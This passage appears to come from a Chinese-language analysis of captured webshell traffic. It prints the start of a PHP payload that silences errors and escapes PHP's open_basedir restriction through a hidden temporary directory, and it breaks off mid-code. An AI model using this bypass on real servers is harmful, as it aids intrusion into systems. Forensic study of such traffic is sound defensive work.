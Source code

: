 ![5](/medias/webshell/5.png)


POST数据包内容：`password=php codde`，格式化分析一下

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
$opdir=@ini_get("open_basedir");
if($opdir) {
    $ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr=preg_split("/;|:/", $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach($oparr as $item) {
        if(!@is_writable($item)) { continue; }
        $tmdir=$item."/.b59d502";
        @mkdir($tmdir);
        if(!@file_exists($tmdir)) { continue; }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr=@preg_split("/\\\\|\\//", $tmdir);
        for($i=0;$i<sizeof($cntarr);$i++){ @chdir(".."); }
        @ini_set("open_basedir","/");
        @rmdir($tmdir);
```